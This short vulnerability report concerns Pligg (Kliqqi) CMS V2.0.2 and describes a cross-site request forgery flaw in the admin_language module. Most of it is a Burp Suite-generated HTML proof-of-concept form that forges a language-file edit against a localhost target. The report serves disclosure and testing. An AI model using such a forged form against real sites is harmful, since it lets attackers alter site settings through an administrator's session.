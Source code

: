 
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/module.php?module=admin_language&mode=save&edit=PLIGG_Visual_Name&file=A%3A%5Csoftware%5Cphpstudy_pro%5CWWW//languages/lang_english.conf&newvalue=cs1

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/module.php?module=admin_language&mode=save&edit=PLIGG_Visual_Name&file=A%3A%5Csoftware%5Cphpstudy_pro%5CWWW//languages/lang_english.conf&newvalue=cs1" method="POST">
      <input type="hidden" name="module" value="admin_language" />
<input type="hidden" name="mode" value="save" />
<input type="hidden" name="edit" value="PLIGG_Visual_Name" />
<input type="hidden" name="file" value="A%3A%5Csoftware%5Cphpstudy_pro%5CWWW//languages/lang_english.conf" />
<input type="hidden" name="newvalue" value="cs1" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

